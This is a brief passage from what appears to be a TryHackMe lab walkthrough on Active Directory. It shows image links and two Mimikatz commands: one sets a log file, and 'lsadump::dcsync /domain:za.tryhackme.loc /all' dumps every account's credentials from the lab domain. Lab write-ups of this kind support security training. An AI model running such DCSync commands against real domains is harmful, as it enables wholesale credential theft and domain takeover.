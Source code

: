 		![task2-lsadump](./images/task2-lsadump.png)

	* Set Log file
	
		```
		log lorraine.gill_dcdump.txt
		```

		![task2-log](./images/task2-log.png)

	* DC Sync all account
	
		```
		lsadump::dcsync /domain:za.tryhackme.loc /all
		```
